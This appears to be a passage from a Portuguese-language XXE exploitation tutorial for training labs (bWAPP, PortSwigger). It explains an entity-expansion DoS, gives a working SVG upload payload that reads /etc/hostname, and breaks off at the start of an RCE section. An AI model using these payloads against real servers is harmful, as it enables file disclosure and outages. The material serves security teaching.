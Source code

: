 ```xml
```

O payload vai chamar `roz` várias vezes em crescimento exponencial formando uma cadeia de callbacks que irão sobrecarregar o servidor, como podemos ver no payload de reset utilizamos a entidade `roz8`, que chama várias vezes a `roz7`, que chama várias vezes a `roz6` e continua até nossa entidade portadora da string `DoS`

Quando enviamos o payload para `xxe-2.php`, não teremos nenhuma resposta, porém quando tentarmos acessar o <i>bWAPP</i>, veremos que ele terá caído.

### XXE Utilizando upload de arquivos

Na exploração de XXE por upload, podemos utilizar o laboratório do PortSwigger (criador do burpsuite) [Exploiting XXE via Image Upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

Vamos enviar nosso payload na sessão de comentários através de um `SVG` de avatar, o payload ficou o seguinte:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
] >
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="40" x="0" y = "100">&xxe;</text>
</svg>
```
Como já colocamos a sintaxe básica de uma imagem SVG dentro do payload, só precisamos mudar a extensão de XML para SVG:

`mv payload.xml payload.svg`

Quando upload for efetuado, vamos que que nosso avatar irá aparecer bem pequeno nos comentários, podemos clicar com o botão direito nele e ir em abrir imagem. 
Na imagem SVG estará o hostname do servidor qual teve o XML parseado com o comando `file:///etc/hostname`.

### XXE para execução remota de código

RCE é uma vulnerabilidade muito grave, podemos obter quase qualquer informação que o usuário da aplicação tenha permissão.

Supondo que o payload que enviamos seja o seguinte:

```xml
<?xml version="1.0" encoding="utf-8"?>
<root>
  <name>
    roz
  </name>
  <tel>
    40028922
  </tel>
  <email>
    test@protonmail.com
  </email>
  <password>
    ohnonononono
  </password>
</root>
```
Poderemos analisar a resposta, supondo que seja algo como

